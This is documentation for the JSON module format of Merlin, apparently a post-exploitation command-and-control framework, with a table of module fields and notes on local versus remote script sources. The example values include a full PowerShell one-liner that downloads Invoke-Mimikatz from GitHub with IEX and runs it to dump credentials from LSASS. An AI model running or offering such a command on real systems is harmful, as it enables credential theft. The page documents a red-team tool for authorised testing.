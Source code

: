 # Merlin Module
Modules are used to perform a set of pre-defined actions or execute a
program on an agent. The modules are described using JavaScript Object
Notation (JSON). Modules will be stored in `platform/arch/language/type`
 directories. Every module _must_ have the `base` object and _may_ have
 additional objects. Examples of the module structures can be found in
 the `data/modules/templates` directory. All keys used when describing a
 module will be lowercase (i.e. name and NOT Name).

## Base
The `base` module is required and is the lowest level of describing a
module and its function.


 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 name   | string | The name of the module | "name": "MyModuleName"
 author | array of strings  | The names of the people that created the Merlin module | "author": ["Russel Van Tuyl (@Ne0ndog)"]
 credits | array of strings | A list of people to credit for underlying tools or techniques | "credits": ["Will Schroeder (@harmj0y)"]
 path   | array of strings | The file path to the module| "path": ["C", "windows", "system32"]
 platform   | string | The target platform the module can run on | "platform": "linux"
 arch   | string | The target architecture the module can run on | "arch": "x64"
 lang   | string | The target language the module leverages | "lang": "powershell" or "lang": "bash"
 privilege | bool | Does the module require elevated privileges? | "privilege": true
 notes | string | Miscelaneous notes about the module | "notes": "This module doesn't work well on Ubuntu 14.04"
 remote | string | The remote path where the script associated with the module can be found | "remote": "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"
 local | array of strings | The local file system path where the script associated with the module can be found | "local": ["data", "src", "PowerSploit", "Exfiltration", "Invoke-Mimikatz.ps1"]
 options | array of objects | The configurable options for the module | "options": [{"name": "DumpCreds", "value": "true", "required": false, "description":"[Switch]Use mimikatz to dump credentials out of LSASS."}]
 description | string | A description of the module and its function | "description": "his script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory."
 commands | array of strings | A list of the commands to be executed on the host when running the script | "commands": ["powershell.exe", "-nop", "-w", "0", "\"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');","Invoke-Mimikatz", "{{DumpCreds.Flag}}", "{{DumpCerts.Flag}}", "{{Command}}", "{{ComputerName}}","\""]


### Remote vs Local
When the module leverages a script, it can be accessed with _either_ the
 `local` or `remote` values of the base module. The `local` specifies
 the file path on the server where the script can be found. Merlin _DOES
 NOT_ ship with scripts. However, they should be copied to the
 `data/source` directory using something like Git. For example, you move
 into the `data/source` direct and do a
 `git clone https://github.com/PowerShellMafia/PowerSploit.git`. When
the `local` source is used, the script is uploaded to the target from
the server. When the `remote` source is used, the script is downloaded
from that location to the target.
